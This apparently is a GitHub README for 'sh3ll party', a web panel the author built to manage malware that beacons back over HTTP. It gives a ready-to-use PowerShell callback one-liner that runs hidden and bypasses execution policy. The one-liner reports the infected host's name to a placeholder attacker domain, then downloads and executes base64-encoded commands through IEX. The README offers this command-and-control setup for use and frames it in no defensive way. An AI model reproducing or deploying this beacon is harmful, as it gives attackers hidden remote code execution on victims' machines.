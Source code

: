 sh3ll party
-----------
I had malware that called back at specified intervals via http but no frontend to manage it. This is what I came up with.

Callback script: `powershell -w hidden -ep bypass -nop -c "$i=(New-Object Net.WebClient);$i.Headers.add('hostid',[net.dns]::GetHostByName('').HostName);IEX([Text.Encoding]::Ascii.GetString([Convert]::FromBase64String($i.DownloadString('http://your.domain.here'))))"`

You have to have a unique beacon id for each beacon. It can be anything. Make it the hostname, ip, mac, whatever.
Set response manually or upload a file. JQuery based datatables make it pretty. A bunch of shitty javascript makes it functional.
